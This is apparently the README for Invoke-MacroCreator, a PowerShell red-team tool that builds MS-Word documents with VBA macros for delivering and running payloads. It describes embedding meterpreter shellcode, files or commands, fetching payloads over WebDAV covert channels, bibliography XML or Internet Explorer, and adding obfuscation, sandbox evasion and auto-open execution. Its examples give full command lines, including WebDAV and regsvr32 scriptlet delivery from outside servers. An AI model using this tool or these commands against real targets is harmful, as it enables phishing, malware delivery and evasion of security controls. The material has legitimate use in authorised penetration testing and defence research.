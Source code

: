 Macro Creator
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

Invoke-MacroCreator is a powershell Cmdlet that allows for the creation of an MS-Word document embedding a VBA macro with various payload delivery and execution capabilities.

Description
-----------------
Basically the script supports three **types** of payload that you MUST specify using the `-t` argument:
  1. `shellcode`: any raw shellcode (*for instance created with msfvenom*). The shellcode is loaded into memory then loaded into the MS-Word process space and executed.
  2. `file`: any type of file (*executable, script, whatever...*). The file is first saved to a local temporary directory then called thanks to a command line specified as an argument.
  3. `command`: any command line to be executed

In either case, the payload itself must be a file (*even a `command` type payload should be in a file*). The file is specified using the `-i` argument.

Those payloads can be delivered through several **delivery** methods that you MUST specify using the `-d` argument:
  1. `body`: the payload is embedded into the body of the MS-Word document in an encoded form. This comes with a limit in terms of size of file that can be embedded.
  2. `comment`: the payload is embedded into the comment of the MS-Word document in a base64 encoded form. This technique is inspired by Invoke-Commentator.
  3. `webdav`: the payload is downloaded over a specific **WebDAV covert channel** (*PROPFIND only*) and requires a tool at the server side counter part: [@WebDavDelivery](https://github.com/Arno0x/WebDavDelivery). The process seen performing network traffic is 'svchost.exe'.
  4. `biblio`: aka "Bibliograpy sources". The payload is embedded in a bibliography sources XML file and then loaded over HTTP(S). The generated 'sources.xml' file must be hosted on a web server.	The process seen performing network traffic is 'word.exe'.
  5. `html` (*using IE*): the payload is embedded into a simple HTML file and then downloaded over HTTP(S) from an Internet Explorer COM object. The generated 'index.html' file must be hosted on a web server. The process seen performing network traffic is 'iexplorer.exe'

If the payload type is a `file`, use the `-c` option to define how the file should be called or executed.

If the delivery method is `webdav`, `biblio` or `html`, you can set the UNC/URL to use with the `-url` option. If you don't set this UNC/URL, the default parameters defined at the beginning of the script are used.

When a command is to be executed (*`file` or `cmd` payload*), three different execution methods are available that can be choosen using the `-m` switch.
	
[*Optionnal*] Using the optionnal `-o` switch, some level of obfuscation is applied on parts of the macro. Obfuscation is applied on:
  1. Variable names (in the template files, all variable surrounded by '_'. ex: `_varName_`)
  2. Function names (in the template files, all functions surrounded by '#'. ex: `#FunctionName#`)
  3. All string parameters (in the template files, all strings surrounded by '-'. ex: `-"any string"-`)
	
[*Optionnal*] Using the optionnal `-e` switch, some sandbox evasion technique can also be included. If a sandbox is being detected, the payload is not executed and the macro stops.

[*Optionnal*] Using the optionnal `-a` switch, auto open functions are added so that the macro is executed automatically when the document is opened. This is what you want for an "effective" attack, but probably not for testing/debugging purposes.


Dependencies
-----------------
Invoke-MacroCreator requires a proper installation of Microsoft Word.


Examples
-----------------
Here are some sample examples:
  
Shellcode embedded in the body of the MS-Word document, no obfuscation, no sandbox evasion:
`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d body`
  
Shellcode delivered over WebDAV covert channel, with obfuscation, no sandbox evasion:
`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -url webdavserver.com -d webdav -o`
  
Scriptlet delivered over bibliography source covert channel, with obfuscation, with sandbox evasion:
`C:\PS> Invoke-MacroCreator -i regsvr32.sct -t file -url 'http://my.server.com/sources.xml' -d biblio -c 'regsvr32 /u /n /s /i:regsvr32.sct scrobj.dll' -o -e`
  
Executable delivered over WebDAV covert channel, using default UNC, no obfuscation, with sandbox evasion, using execution method 3:
`C:\PS> Invoke-MacroCreator -i badass.exe -p file -t webdav -c 'badass.exe' -e -m 3`
  
Command line embedded in the body of the MS-Word document, with obfuscation, no sandbox evasion, using execution method 1:
`C:\PS> Invoke-MacroCreator -i my_cmd.bat -p cmd -t body -o -m 1`
  
Shellcode embedded in a comment of the MS-Word document, no obfuscation, no sandbox evasion, adding auto-open functions:
`C:\PS> Invoke-MacroCreator -i meterpreter_shellcode.raw -t shellcode -d comment -a`
